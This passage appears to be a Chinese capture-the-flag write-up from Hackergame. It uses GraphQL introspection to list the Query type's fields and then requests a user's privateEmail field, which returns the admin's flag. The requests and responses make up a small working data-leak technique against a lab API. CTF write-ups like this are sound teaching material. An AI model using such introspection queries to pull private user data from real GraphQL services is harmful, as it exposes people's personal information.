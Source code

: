 ```
这和我们在类型系统那章里说的一样，Query 类型是我们开始的地方！
注意这里的命名只是一个惯例，我们也可以把 Query 取成别的名字，只要我们把它定义为所有查询出发的地方，它也依然会在这里被返回。
尽管如此，还是把它命名为 Query 吧，这是一个有用的惯例。
```

那不如来看看 `Query` 里有什么：

```json
{"query":"{ __type(name: \"Query\") { name fields { name type { name kind } } } }"}
```

```json
{
    "data": {
        "__type": {
            "name": "Query",
            "fields": [
                {
                    "name": "note",
                    "type": {
                        "name": "GNote",
                        "kind": "OBJECT"
                    }
                },
                {
                    "name": "notes",
                    "type": {
                        "name": null,
                        "kind": "LIST"
                    }
                },
                {
                    "name": "user",
                    "type": {
                        "name": "GUser",
                        "kind": "OBJECT"
                    }
                }
            ]
        }
    }
}
```
Here we go.

直接照葫芦画瓢，把需要的抄下来：

```json
{"query":"{ user(id: 1) { username\nprivateEmail }}"}
```

```json
{
    "data": {
        "user": {
            "username": "admin",
            "privateEmail": "flag{dont_let_graphql_l3ak_data_8b4a433f52@hackergame.ustc}"
        }
    }
}
```
